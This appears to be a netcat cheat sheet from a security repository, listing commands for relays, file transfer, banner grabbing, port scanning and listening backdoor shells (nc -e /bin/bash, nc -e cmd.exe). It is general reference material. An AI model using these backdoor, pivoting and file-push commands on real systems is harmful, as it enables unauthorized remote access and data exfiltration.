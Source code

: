 # Netcat Usage

`netcat` is a command-line or shell application that can be used for a wide variety of exploitation matters including transferring files, establishing remote shells and more! The official netcat site is http://netcat.sourceforge.net and, although Sourceforge has this repository, most Unix/Linux operating systems have a netcat application that is/can be installed via their packagers (apt-get, ports, etc.).

The [SANS Institute](http://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf) has a very good "Cheat Sheet" PDF for netcat commands and functions. Please **note** that "All syntax is designed for the original netcat versions, released by Hobbit and Weld Pond. The syntax here can be adapted for other netcats." So, you may need to modify the commands below. Please do check out their PDF.

## Relays on Linux
Before you do any of the Linux relays with netcat below, please do the following:
``$ cd /tmp``
``$ mknod backpipe p``

## Commands
| Command  | Category | Description / Importance |
| -------- | -------- | ------------------------ |
| `C:\> nc -l -p [LocalPort] -e relay.bat` <br> `C:\> echo nc [TargetIPaddr] [port] > relay.bat` | Relay - Windows | **Listener-to-Client Relay** - Create a relay that sends packets from the local port [LocalPort] to a netcat client connected to [TargetIPaddr] on port [port] |
| `$ nc -l -p [LocalPort] 0<backpipe` &#124; `nc [TargetIPaddr] [port]` &#124; `tee backpipe` | Relay - Linux | **Listener-to-Client Relay** - Create a relay that sends packets from the local port [LocalPort] to a netcat client connected to [TargetIPaddr] on port [port] |
| `C:\> echo nc -l -p [LocalPort_2] > relay.bat`<br>`C:\> nc -l -p [LocalPort_1] -e relay.bat` | Relay - Windows | **Listener-to-Listener Relay** - Create a relay that will send packets from any connection on {LocalPort_1] to any connection on [LocalPort_2] |
| `$ nc -l -p [LocalPort_1] 0<backpipe` &#124; `nc -l -p [LocalPort_2]` &#124; `tee backpipe` | Relay - Linux | **Listener-to-Listener Relay** - Create a relay that will send packets from any connection on {LocalPort_1] to any connection on [LocalPort_2] |
| `C:\> echo nc [NextHopIPaddr] [port2] > relay.bat`<br>`C:\> nc [PreviousHopIPaddr] [port] -e relay.bat` | Relay - Windows | **Client-to-Client Relay** - Create a relay that will send packets from the connection to [PreviousHopIPaddr] on port [port] to a Netcat Client connected to [NextHopIPaddr] on port [port2] |
| `$ nc [PreviousHopIPaddr] [port] 0<backpipe` &#124; `nc [NextHopIPaddr] [port2]` &#124; `tee backpipe` | Relay - Linux | **Client-to-Client Relay** - Create a relay that will send packets from the connection to [PreviousHopIPaddr] on port [port] to a Netcat Client connected to [NextHopIPaddr] on port [port2] |
| **Server:** `nc -w3 [TargetIPaddr] [port] < [infile]`<br>**Client:** `nc -l -p [LocalPort] > [outfile]` | File Transfer - All OS | Push [infile] to [TargetIPaddr] on [port] |
| **Server:** `nc -l -p [LocalPort] < [infile]`<br>**Client:** `nc -w3 [TargetIPaddr] [port] > [outfile]` | File Transfer - All OS | Connect to [TargetIPaddr] on [port] and retrieve [outfile] |
| `echo ""` &#124; `nc -v -n -w1 [TargetIPaddr] [start_port] [end_port]` | TCP Banner Grabber | Attempt to connect to each port in a range from [end_port] to [start_port] on [TargetIPaddr]. Then send a blank string to the open port and print out any banner received in response. | 
| `nc -v -n -z -w1 [TargetIPaddr] [start_port] [end_port]` | TCP Port Scanner | Attempt to connect to each port in a range from [end_port] tp [start_port] on IP address [TargetIPaddr]. |
| `$ nc -l -p [LocalPort] -e /bin/bash` | Backdoor - Linux | Listening backdoor shell for a Linux computer. Use a netcat client to connect to the target's IP address on the [LocalPort] and you will get a BASH shell. |
| `$ nc -l -p [LocalPort] -e cmd.exe` | Backdoor - Windows | Listening backdoor shell for a Windows computer. Use a netcat client to connect to the target's IP address on the [LocalPort] and you will get a CMD shell. |
